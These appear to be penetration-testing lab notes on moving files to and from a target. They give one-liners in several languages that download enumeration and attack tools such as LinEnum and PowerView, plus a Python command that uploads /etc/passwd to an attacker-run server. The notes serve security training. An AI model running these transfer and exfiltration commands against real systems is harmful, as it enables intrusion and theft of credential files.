 Common Programming Languages on Linux Distros:

- Python
- Perl
- PHP
- Ruby

Windows Default applications:

- cscript
- mshta

**Python**

- Currently Python 3 is supported, however we may run into a situation where we have a target that is still running Python 2.7.

**Python2 - Download:**

`[!bash!]**$** python2.7 -c 'import urllib;urllib.urlretrieve ("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "LinEnum.sh")'`

**Python3 - Download:**

`[!bash!]**$** python3 -c 'import urllib.request;urllib.request.urlretrieve("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "LinEnum.sh")'`

**PHP**

- PHP is used by 77.4% of all websites with a known server-side programming language.
    
- We can use the following modules to download content from a website:
    - file_get_contents()
    - file_put_contents()
- Using PHP to download file using file_get_contents():
    - `[!bash!]**$** php -r '$file = file_get_contents("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>"); file_put_contents("LinEnum.sh",$file);'`
- An alternative to the file_get_contents() and file_put_contents() is fopen():
```bash
    [!bash!]$ php -r 'const BUFFER = 1024; $fremote =
    fopen("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
    ```
**Other Languages:**

Ruby and Perl are other popular languages that can be used to transfer files:

- Using Ruby to download files:

`[!bash!]**$** ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>")))'`

- Using Perl to download files:

`[!bash!]**$** perl -e 'use LWP::Simple; getstore("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "LinEnum.sh");'`

**Javascript:**

- Allows for the implementation of complex features on web pages.
- We can create a wget.js to download and save the content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); WinHttpReq.Open("GET", WScript.Arguments(0), /_async=_/false); WinHttpReq.Send(); BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1; BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody); BinStream.SaveToFile(WScript.Arguments(1));
```

**Downloading a file using javascript and cscript.exe

```powershell
C:\htb> cscript.exe /nologo wget.js [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1]
```

VBScript (Microsoft Visual Basic Scripting Edition)**

- The following is an example VBScript that we can create and execute our code via Command Prompt or Powershell.

---


```VBScript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
- The file that we created above is titled wget.vbs

`C:\\htb> cscript.exe /nologo wget.vbs <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1> PowerView2.ps1`

**Uploading Operations using Python3:**

- The python3 module allows you to send HTTP requests (GET, POST, PUT, etc) using Python.
- We can use our Python3 uploadserver

```bash
[!bash!]$ python3 -m uploadserver File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (<http://0.0.0.0:8000/>) ...

```

**Uploading a File Using a Python one-liner:**

`[!bash!]**$** python3 -c 'import requests;requests.post("<http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb>")})'`

Let’s divide this python one-liner up for further exlpanation

```python
# To use the requests function, we need to import the module first. 
import requests 

# Define the target URL where we will upload the file. 
URL = "http://192.168.49.128:8000/upload" 

# Define the file we want to read, open it and save it in a variable. 
file = open("/etc/passwd","rb") 

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```